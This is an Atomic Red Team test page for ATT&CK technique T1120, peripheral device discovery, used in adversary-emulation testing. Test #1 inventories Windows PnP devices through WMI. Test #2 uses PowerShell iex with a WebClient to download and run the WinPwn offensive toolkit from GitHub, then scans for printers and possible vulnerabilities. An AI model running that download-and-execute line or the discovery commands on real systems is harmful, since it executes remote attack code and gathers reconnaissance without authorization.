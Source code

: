 # T1120 - Peripheral Device Discovery

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1120)

<blockquote>Adversaries may attempt to gather information about attached peripheral devices and components connected to a computer system.(Citation: Peripheral Discovery Linux)(Citation: Peripheral Discovery macOS) Peripheral devices could include auxiliary resources that support a variety of functionalities such as keyboards, printers, cameras, smart card readers, or removable storage. The information may be used to enhance their awareness of the system and network environment or may be used for further actions.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Win32_PnPEntity Hardware Inventory](#atomic-test-1---win32_pnpentity-hardware-inventory)

- [Atomic Test #2 - WinPwn - printercheck](#atomic-test-2---winpwn---printercheck)

<br/>

## Atomic Test #1 - Win32_PnPEntity Hardware Inventory

Perform peripheral device discovery using Get-WMIObject Win32_PnPEntity

**Supported Platforms:** Windows

**auto_generated_guid:** 2cb4dbf2-2dca-4597-8678-4d39d207a3a5

#### Attack Commands: Run with `powershell`!

```powershell
Get-WMIObject Win32_PnPEntity | Format-Table Name, Description, Manufacturer > $env:TEMP\T1120_collection.txt
$Space,$Heading,$Break,$Data = Get-Content $env:TEMP\T1120_collection.txt
@($Heading; $Break; $Data |Sort-Object -Unique) | ? {$_.trim() -ne "" } |Set-Content $env:TEMP\T1120_collection.txt
```

#### Cleanup Commands:

```powershell
Remove-Item $env:TEMP\T1120_collection.txt -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #2 - WinPwn - printercheck

Search for printers / potential vulns using printercheck function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** cb6e76ca-861e-4a7f-be08-564caa3e6f75

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
printercheck -noninteractive -consoleoutput
```

<br/>
